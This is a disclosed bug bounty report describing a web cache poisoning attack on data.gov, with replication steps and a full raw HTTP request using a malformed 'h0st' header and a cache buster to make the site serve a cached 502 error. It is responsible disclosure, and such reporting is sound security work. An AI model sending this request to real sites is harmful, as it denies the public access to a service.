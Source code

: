 # Denial of service via cache poisoning on https://www.data.gov/

## Report Details
- **Report ID**: 942629
- **URL**: https://hackerone.com/reports/942629
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-07-25T19:00:13.932Z
- **Disclosed**: 2021-06-15T19:42:54.864Z

## Reporter
- **Username**: kq8dq
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
An attacker can persistently block access to any on https://www.data.gov/ by using cache poisoning with the h0st headers to cause
502 response code。

To replicate:
load https://www.data.gov/ in your browser.
look the burp ,  add ?xyzxyz=1 as cache buster , and add h0st headers h0st: wrtqvavjigwdvoqk in your burp.
load https://www.data.gov/?xyzxyz=1 in your browser. again.
and you win see 502 ERROR

{F922984}

To be more clearer, see my video
{F922983}

my http request：

```
GET /?xyzxyz=1 HTTP/1.1
Host: www.data.gov
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
h0st: wrtqvavjigwdvoqk
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

```


For more information on the theory behind this attack, check out https://portswigger.net/research/responsible-denial-of-service-with-web-cache-poisoning

Similar report：
https://hackerone.com/reports/622122
https://hackerone.com/reports/409370

## Impact

An attacker can persistently block access to any on https://www.data.gov/

## Attachments
- 20200726_024937.mp4
- 20200726025249.png
